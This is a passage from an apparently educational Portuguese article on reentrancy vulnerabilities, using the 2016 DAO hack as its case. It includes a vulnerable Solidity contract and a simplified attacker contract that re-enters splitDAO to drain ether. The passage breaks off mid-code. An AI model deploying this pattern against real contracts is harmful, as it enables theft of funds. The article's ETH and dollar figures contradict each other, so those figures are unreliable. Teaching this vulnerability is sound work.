 **Por que é perigoso?** A transparência da blockchain (código público) e a imutabilidade dos contratos tornam reentrância um alvo fácil. Sem proteção, qualquer contrato com chamadas externas é vulnerável.

---

## **O Caso do The DAO Hack (2016): A Reentrância que Abalou a Ethereum**

### **Contexto**
Em 2016, a Ethereum era uma blockchain jovem, e **The DAO** (Decentralized Autonomous Organization) foi um marco: um fundo de investimento descentralizado que arrecadou US$ 150 milhões em ETH (3,6 milhões de ETH) para financiar projetos votados pela comunidade. Era o maior crowdfunding da história, gerenciando 14% de todo o ETH em circulação. O contrato, escrito em Solidity, prometia transparência e automação, mas uma falha de reentrância o transformou no maior hack da história da blockchain.

### **O Ataque**
Em junho de 2016, um atacante explorou uma vulnerabilidade de reentrância na função `splitDAO`, que permitia aos investidores retirar seus fundos para criar novos DAOs. A função transferia ETH antes de atualizar o saldo do usuário, criando uma janela para múltiplas chamadas.

**Como funcionou?**  
- O atacante criou um contrato malicioso que depositou ETH no The DAO.  
- Ele chamou `splitDAO`, que transferia ETH ao contrato malicioso via `call`.  
- Antes de zerar o saldo no The DAO, o contrato malicioso usou sua função `fallback` para chamar `splitDAO` novamente, recebendo mais ETH.  
- O ciclo se repetiu, drenando **3,6 milhões de ETH** (cerca de **US$ 50 milhões na época**, equivalente a US$ 70-80M hoje ajustado pela inflação).  

**Código Simplificado do The DAO (Vulnerável)**:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.4.0; // Versão antiga

contract TheDAO {
    mapping(address => uint) public saldos;

    function splitDAO(address receptor) public {
        uint valor = saldos[msg.sender];
        if (valor > 0) {
            // Vulnerável: Envia ETH antes de atualizar
            receptor.call.value(valor)();
            saldos[msg.sender] = 0;
        }
    }
}
```

**Contrato Atacante (Hipotético)**:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.4.0;

contract Atacante {
    TheDAO public dao;

    function atacar(address _dao) public {
        dao = TheDAO(_dao);
        dao.splitDAO(address(this));
    }

    function() public payable {
        if (address(dao).balance >= 1 ether) {
            dao.splitDAO(address(this)); // Re-entra
        }
```